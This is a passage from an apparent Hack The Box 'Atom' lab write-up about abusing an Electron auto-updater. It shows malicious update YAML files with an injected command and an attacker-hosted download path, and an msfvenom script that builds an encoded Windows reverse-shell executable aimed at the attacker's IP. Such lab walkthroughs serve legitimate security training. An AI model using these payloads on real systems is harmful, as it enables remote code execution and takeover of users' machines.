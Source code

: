 This didn't work either. My next idea was to try the payload that did land a hit, but using the command injection syntax instead:

```yaml
version: 1.0.1
path: http://10.10.14.167/heedv1';ping -n 1 10.10.14.167;'Setup1.0.1.exe
sha512: 0BsRscpeO3lQvkaP1fqRYWyw3lelkI/2qJ1BsshauD8kJ39nHJKFanTUVpUNRotgKkVljcEy/Is9U87FIbYrPw==
releaseDate: '2021-04-21T11:17:02.627Z'
```

I got a hit again, but no ping. I did try pinging myself with the following command:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/atom]
└─$ ping -I tun0 localhost
```

The requests showed up on my listener, so that wasn't the issue.

```bash
┌──(mac㉿kali)-[~/Documents/HTB/atom]
└─$ sudo tcpdump -i tun0 -n icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
16:37:26.871587 IP 10.10.14.167 > 127.0.0.1: ICMP echo request, id 60658, seq 1, length 64
16:37:27.874587 IP 10.10.14.167 > 127.0.0.1: ICMP echo request, id 60658, seq 2, length 64
```

## Replicating Steps

I wanted to make this script easily replicable, as I came back to this box and my IP had changed. So I wrote a quick bash script:

```bash
echo "Getting tun0 IP..."
ip=$(ip -4 addr show tun0 | grep -oP '(?<=inet\s)\d+(\.\d+){3}')
echo "$ip"

echo "Making payload..."
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=$ip LPORT=9001 -b "\x00" -e x86/shikata_ga_nai -f exe -o "heedv1'Setup1.0.1.exe"

echo "Getting size of payload..."
size=$(stat -c%s "heedv1'Setup1.0.1.exe")
echo "$size" 
```

This just creates a payload with my `tun0` IP and outputs the size. I would eventually code a full Python solution that also uploads the YAML, but I needed to fix the syntax before I wrote that.

## Attempting to Fix YAML

I first wanted to try staying true to the original blog post and include a hyphen in front of the URL, which I hadn't tried yet:

```yaml
version: 1.0.1
files:
  - url: heedv1'Setup1.0.1.exe
  sha512: 0BsRscpeO3lQvkaP1fqRYWyw3lelkI/2qJ1BsshauD8kJ39nHJKFanTUVpUNRotgKkVljcEy/Is9U87FIbYrPw==
  size: 73802
path: http://10.10.14.193/heedv1'Setup1.0.1.exe
sha512: 0BsRscpeO3lQvkaP1fqRYWyw3lelkI/2qJ1BsshauD8kJ39nHJKFanTUVpUNRotgKkVljcEy/Is9U87FIbYrPw==
releaseDate: '2021-04-21T11:17:02.627Z'
```
